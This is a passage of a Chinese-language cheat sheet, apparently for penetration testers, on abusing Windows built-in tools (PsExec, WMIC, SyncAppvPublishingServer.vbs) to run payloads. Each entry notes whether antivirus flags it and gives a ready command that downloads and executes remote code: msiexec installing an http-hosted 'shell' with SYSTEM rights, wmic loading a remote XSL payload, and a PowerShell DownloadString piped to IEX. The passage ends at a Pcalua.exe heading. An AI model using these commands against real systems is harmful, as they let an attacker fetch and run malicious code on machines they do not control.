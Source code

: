 - 详细文章链接：[https://mp.weixin.qq.com/s/JdOmlqif67GcSqZuuGPz0Q](https://mp.weixin.qq.com/s/JdOmlqif67GcSqZuuGPz0Q)

PsExec是SysinternalsSuite的小工具之一，是一种轻量级的telnet替代品，允许在其他系统上执行进程，完成控制台应用程序的完全交互，而无需手动安装客户端软件，并且可以获得与控制台应用程序相当的完全交互性。在windows系统并未默认安装，下载地址见参考文章。


- 执行方式：

psexec执行payload：
```
psexec.exe -s -d msiexec /q /i http://yourservice/shell/win_re.txt
//-s 以system权限执行
// -d 不产生交互式窗口
```
## WMIC.exe

- 杀软行为检测：触发杀软行为预警

- 详细文章链接：[https://mp.weixin.qq.com/s/QNqM8Vdlu-SOP7ZqnRWY3w](https://mp.weixin.qq.com/s/QNqM8Vdlu-SOP7ZqnRWY3w)

WMIC扩展WMI（Windows Management Instrumentation，Windows管理工具），提供了从命令行接口和批命令脚本执行系统管理的支持。在WMIC出现之前，如果要管理WMI系统，必须使用一些专门的WMI应用，例如SMS，或者使用WMI的脚本编程API，或者使用象CIM Studio之类的工具。如果不熟悉C++之类的编程语言或VBScript之类的脚本语言，或者不掌握WMI名称空间的基本知识，要用WMI管理系统是很困难的。WMIC改变了这种情况。

Windows 2003 默认位置：
```
C:\WINDOWS\system32\wbem\wmic.exe C:\WINDOWS\SysWOW64\wbem\wmic.exe
```
Windows 7 默认位置：
```
C:\Windows\System32\wbem\WMIC.exe C:\Windows\SysWOW64\wbem\WMIC.exe
```

- 执行方式：
```
wmic os get /FORMAT:"http://10.211.55.10/payload.xsl"
```

## SyncAppvPublishingServer.vbs
- 杀软行为检测：触发杀软行为预警

- 详细文章链接：[https://mp.weixin.qq.com/s/Ud7TbeMJb8fsRlaGHWhBww](https://mp.weixin.qq.com/s/Ud7TbeMJb8fsRlaGHWhBww)

Windows上有两个版本的SyncAppVPublishingServer工具，它们是：SyncAppvPublishingServer.exe、SyncAppvPublishingServer.vbs,可以用他们来取代powershell。

- 执行方式：

在powershell下执行
```
SyncAppvPublishingServer.vbs "n;((New-Object Net.WebClient).DownloadString('http://some.url/script.ps1') | IEX"
```
## Pcalua.exe
